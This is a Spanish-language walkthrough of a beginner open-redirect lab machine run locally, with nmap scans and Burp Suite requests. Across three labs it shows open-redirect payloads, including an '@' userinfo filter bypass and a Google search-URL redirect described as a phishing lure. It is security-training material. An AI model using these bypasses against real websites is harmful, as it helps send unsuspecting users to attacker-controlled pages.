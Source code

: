 ```yaml
---
icon: flag
---
```


# Redirection BugBountyLabs (Principiante)

## Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip bugbountylabs_redirection.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
python3 bugbountylabs_redirection.py
```

Info:

```
██████╗ ██╗   ██╗ ██████╗     ██████╗  ██████╗ ██╗   ██╗███╗   ██╗████████╗██╗   ██╗    ██╗      █████╗ ██████╗ ███████╗
██╔══██╗██║   ██║██╔════╝     ██╔══██╗██╔═══██╗██║   ██║████╗  ██║╚══██╔══╝╚██╗ ██╔╝    ██║     ██╔══██╗██╔══██╗██╔════╝
██████╔╝██║   ██║██║  ███╗    ██████╔╝██║   ██║██║   ██║██╔██╗ ██║   ██║    ╚████╔╝     ██║     ███████║██████╔╝███████╗
██╔══██╗██║   ██║██║   ██║    ██╔══██╗██║   ██║██║   ██║██║╚██╗██║   ██║     ╚██╔╝      ██║     ██╔══██║██╔══██╗╚════██║
██████╔╝╚██████╔╝╚██████╔╝    ██████╔╝╚██████╔╝╚██████╔╝██║ ╚████║   ██║      ██║       ███████╗██║  ██║██████╔╝███████║
╚═════╝  ╚═════╝  ╚═════╝     ╚═════╝  ╚═════╝  ╚═════╝ ╚═╝  ╚═══╝   ╚═╝      ╚═╝       ╚══════╝╚═╝  ╚═╝╚═════╝ ╚══════╝

Fundadores
El Pingüino de Mario
Curiosidades De Hackers

Cofundadores
Zunderrub
CondorHacks
Lenam

Descargando la máquina redirection, espere por favor...

[########################################] 100%
Descarga completa.
La IP de la máquina redirection es -> 172.17.0.2

Presiona Ctrl+C para detener la máquina
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

### Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-19 12:55 CET
Nmap scan report for app.dl (172.17.0.2)
Host is up (0.000038s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
|_http-title: Laboratorio de Open Redirect
|_http-server-header: Apache/2.4.62 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.67 seconds
```

Vemos que hay un puerto `80` y si entramos a la pagina web veremos varios laboratorios de `Open Redirect`, por lo que vamos a ir haciendolos uno por uno.

## LAB 1:

<figure><img src="../../.gitbook/assets/image (309).png" alt=""><figcaption></figcaption></figure>

Veremos que con ese boton nos lleva a `google.com` por lo que vamos abrir `BurpSuite` y capturar esa peticion de redireccion, veremos lo siguiente:

```
GET /laboratorio1/redirect.php?url=http://google.com HTTP/1.1
Host: 172.17.0.2
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://172.17.0.2/laboratorio1/
Upgrade-Insecure-Requests: 1
Priority: u=0, i

```

Vemos que se esta poniendo directamente en la `URL` la redireccion a `google.com`, pero si nosotros ponemos por ejemplo `example.es` quedando de la siguiente forma:

```
GET /laboratorio1/redirect.php?url=http://example.es HTTP/1.1
Host: 172.17.0.2
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://172.17.0.2/laboratorio1/
Upgrade-Insecure-Requests: 1
Priority: u=0, i

```

Y si la enviamos, y vamos a la pagina veremos que nos redirije de forma correcta:

<figure><img src="../../.gitbook/assets/image (310).png" alt=""><figcaption></figcaption></figure>

Por lo que habremos terminado el primero `laboratorio`.

## LAB 2:

<figure><img src="../../.gitbook/assets/image (311).png" alt=""><figcaption></figcaption></figure>

Veremos si le damos al boton de `Google` nos lleva a `google.com`, pero si intentamos hacer lo mismo de antes, reemplazando la `URL` mediante `BurpSuite` por la de `example.es` veremos lo siguiente:

<figure><img src="../../.gitbook/assets/image (312).png" alt=""><figcaption></figcaption></figure>

Por lo que vemos lo esta bloqueando, pero si realizamos algun `Bypass` poniendo un `@` por delante para que se piense el servidor que es un `subdominio` de `google.es` y nos llevara a dicha `URL` que le metamos.

Capturaremos la peticion con `BurpSuite` y veremos lo siguiente:

```
GET /laboratorio2/redirect.php?url=https://www.google.com HTTP/1.1
Host: 172.17.0.2
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://172.17.0.2/laboratorio2/
Upgrade-Insecure-Requests: 1
Priority: u=0, i

```

Ahora le pondremos el `payload` de forma `bypasseada` quedando de la siguiente forma:

```
GET /laboratorio2/redirect.php?url=https://www.google.com@example.es HTTP/1.1
Host: 172.17.0.2
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://172.17.0.2/laboratorio2/
Upgrade-Insecure-Requests: 1
Priority: u=0, i

```

Ahora si enviamos la peticion y volvemos a la pagina veremos que nos ha llevado de forma correcta a `example.es`.

<figure><img src="../../.gitbook/assets/image (313).png" alt=""><figcaption></figcaption></figure>

Por lo que habremos terminado el `laboratorio`.

## LAB 3:

<figure><img src="../../.gitbook/assets/image (314).png" alt=""><figcaption></figcaption></figure>

Veremos que si le damos al boton de `Ir a Google` nos llevara a `google.com`, pero si intentamos cambiar directamente la `URL` mediante la peticion con `BurpSuite` veremos que no funciona y nos aparece lo mismo de antes:

<figure><img src="../../.gitbook/assets/image (315).png" alt=""><figcaption></figcaption></figure>

Pero si intentamos poner el `@` para hacer creer que es un `subdominio` nos aparecera el mismo mensaje de bloqueo, por lo que haremos que busque el navegador la`URL` en este caso del atacante y esto tambien se considera un `Open redirect` ya que con esta tecnica mediante un poco de `phising` puede el usuario pinchar en el enlace malicioso.

Vamos abrir `BurpSuite` capturar la peticion y dejaremos la peticion de la siguiente forma:

```
GET /laboratorio3/redirect.php?url=https://www.google.com/search?q=example.com HTTP/1.1
Host: 172.17.0.2
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://172.17.0.2/laboratorio3/
Upgrade-Insecure-Requests: 1
Priority: u=0, i

```

Poniendo el `?q=` despues de la `URL` veremos lo siguiente cuando la enviemos:

<figure><img src="../../.gitbook/assets/image (316).png" alt=""><figcaption></figcaption></figure>

Vemos que esta funcionando de forma correcta y nos lleva directamente a la `URL` maliciosa para que el usuario pinche.
